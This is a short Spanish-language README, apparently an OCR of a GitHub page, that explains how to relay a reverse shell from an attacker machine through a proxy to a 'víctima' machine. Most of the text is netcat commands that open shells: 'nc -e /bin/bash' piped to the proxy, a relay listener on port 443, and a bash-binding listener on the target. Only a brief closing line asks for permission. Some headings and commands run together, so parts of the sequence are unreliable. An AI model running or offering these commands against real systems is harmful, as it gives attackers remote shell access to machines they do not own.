 # README - Configuración de Reverse Shell a través de Proxy
Este README proporciona instrucciones sobre cómo configurar una reverse shell desde una máquina atacante a través de un proxy hacia una máquina final.

# Configuración Máquinas involucradas:
  - Máquina atacante: (IP atacante)
  - Proxy: (IP proxy)
  - Máquina final: (IP víctima)

# Pasos para la configuración:
1. Máquina atacante (IP atacante):

2. Ejecuta el siguiente comando para establecer una conexión a través del proxy y enviar la shell inversa:
- nc -e /bin/bash (IP proxy) 443 | nc -v (IP víctima) 443 Proxy ((IP proxy)):

# Ejecuta el siguiente comando para escuchar en el puerto 443 y redirigir el tráfico entrante a la máquina final:

- nc -lvp 443 | nc -v (IP víctima) 443 Máquina final ((IP víctima)):

# Configura un listener para recibir la conexión entrante en el puerto 443:

- nc -lvp 443  -e /bin/bash
- 
# Notas importantes:
Asegúrate de tener permisos adecuados y contar con el consentimiento del propietario del sistema antes de realizar este tipo de acciones.
La seguridad ética y responsable es esencial en todas las actividades relacionadas con la seguridad informática.
